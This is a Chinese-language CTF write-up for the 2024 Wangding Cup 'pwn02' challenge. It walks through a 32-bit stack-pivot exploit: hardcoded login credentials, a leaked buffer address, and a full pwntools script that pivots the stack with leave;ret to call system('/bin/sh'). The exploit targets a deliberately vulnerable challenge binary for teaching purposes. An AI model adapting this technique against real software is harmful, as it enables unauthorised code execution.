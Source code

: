 # 网鼎pwn

题目下载：[Release 附件下载 · CTF-Archives/2024-wdb-qinglong](https://github.com/CTF-Archives/2024-wdb-qinglong/releases/tag/v0.1)





## pwn02栈迁移

checksec 一下

```
helloctfos@Hello-CTF:~/pwnenv$ checksec short
[*] '/home/helloctfos/pwnenv/short'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```





有个登录验证，直接输入就可以了

```c
_BOOL4 login()
{
  char s1[64]; // [esp+0h] [ebp-88h] BYREF
  char s[68]; // [esp+40h] [ebp-48h] BYREF

  printf("Enter your username: ");
  fgets(s, 64, stdin);
  s[strcspn(s, "\n")] = 0;
  printf("Enter your password: ");
  fgets(s1, 64, stdin);
  s1[strcspn(s1, "\n")] = 0;
  return !strcmp(s, "admin") && !strcmp(s1, "admin123");
}
```



exp一部分：

```
io.recvuntil("Enter your username:")
io.sendline(b'admin')
io.recvuntil("Enter your password:")
io.sendline(b'admin123')
```



然后看关键的：

![image-20241125221138409](../../_media/image-20241125221138409.png)

read有个溢出点



程序`printf`把`buf`的地址给打出来了

```
io.recvuntil(b'0x')
buf = int(io.recv(8), 16)
```



有一个`gift`函数，里面有`system`

```
.text:080485FF                 call    _system
```

plt表中

```
.plt:080484A0 ; int system(const char *command)
```



但是不够位置，所以应该是先写上去，然后system函数执行buf里面的东西

然后我们把sh写入buf地址中

```
'/bin/sh\x00'
```





所以直接写exp

+16是因为/bin/sh是写在buf区域的地址+16，然后填充完0x50控制程序流，然后就是标准栈迁移，leave ret

```python
from pwn import *

context(arch='i386',os='linux',log_level='debug')
io = process("./short")

system_addr = 0x080484a0
leave_addr = 0x804860f

io.recvuntil("Enter your username:")
io.sendline(b'admin')
io.recvuntil("Enter your password:")
io.sendline(b'admin123')

io.recvuntil(b'0x')
buf_addr = int(io.recv(8), 16)

payload = flat([cyclic(4),system_addr,0,buf_addr+16,'/bin/sh\x00']).ljust(0x50)
payload += flat([buf_addr,leave_addr])

io.recvuntil("plz input your msg:\n")

io.sendline(payload)

io.interactive()
```



